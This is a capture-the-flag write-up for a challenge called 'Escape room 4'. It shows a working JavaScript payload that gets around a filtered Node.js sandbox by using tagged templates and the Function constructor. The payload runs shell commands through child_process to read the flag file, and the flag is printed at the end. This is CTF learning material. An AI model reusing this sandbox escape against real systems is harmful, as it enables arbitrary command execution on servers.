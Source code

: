 # Escape room 4

## Write-up

To bypass the restrictions you can:
 - Use two backticks instead of `()` to call functions
 - Use `something["some_name"]` instead of `something.some_name` to access properties
 - Use backticks instead of `"` or `'` to create strings
 - Create functions from strings by using the contructor's constructor which is the Function object
 - And we do not need numbers

```javascript
// Assign the splitted string "function Function() { [native code] }" to a variable 
//  - To access the Function method, we use the constructor.constructor method
//    since the constructor without parenthesis is considered a function and the constructor
//    of the function is the object "Function"
//  - To assign variables, we can instead merge object with the global context
Object[`assign`][`bind`]`${global}``${{chararray:``[`constructor`][`constructor`][`toString`]``[`split`]``}}`
// Shift 17 times the string to discard "function Function"
chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;chararray[`shift`]``;
// Assign both "(" and ")" to variables
Object[`assign`][`bind`]`${global}``${{open_parenthesis:chararray[`shift`]``,close_parenthesis:chararray[`shift`]``}}`
// Create a function from a string that calls "process.mainModule.require("child_process").spawnSync("cat flag*",[],{shell:true}).stdout"
// Execute the function and join the buffer data with "," in between
// Print the value as a decimal array
console[`log`]`${``[`constructor`][`constructor`]`_${`return process[\`mainModule\`][\`require\`]${open_parenthesis}\`child_process\`${close_parenthesis}[\`spawnSync\`]${open_parenthesis}\`cat flag*\`,[],{shell:true}${close_parenthesis}[\`stdout\`]`}```[`join`]`,`}Decode the decimal array using cyberchef >>>`;
```

## Flag

`flag-108a55858ba2f0a498fb14666bab109f`
